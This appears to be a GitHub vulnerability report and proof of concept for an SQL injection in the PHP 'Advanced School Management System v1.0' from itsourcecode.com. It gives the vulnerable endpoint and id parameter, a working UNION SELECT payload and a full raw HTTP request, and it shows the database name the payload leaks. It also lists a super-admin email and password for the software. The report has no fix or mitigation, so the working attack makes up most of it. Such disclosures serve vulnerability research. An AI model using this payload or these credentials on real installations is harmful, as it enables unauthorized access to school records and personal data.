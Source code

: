 # Advanced School Management System v1.0 by itsourcecode.com has SQL injection

Login account: suarez081119@gmail.com/12345 (Super Admin account)

vendors: https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

Vulnerability File: /school/model/get_grade.php?id=

Vulnerability location: /school/model/get_grade.php?id=,id

[+] Payload: /school/model/get_grade.php?id=-13%20union%20select%201,database(),3,4--+ // Leak place ---> id

Current database name: std_db,length is 6

```sql
GET /school/model/get_grade.php?id=-13%20union%20select%201,database(),3,4--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=kh42r202aj35u61brcutn42s96
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/171970683-a8652a4f-6e08-4488-b207-78556b3d0fd3.png)
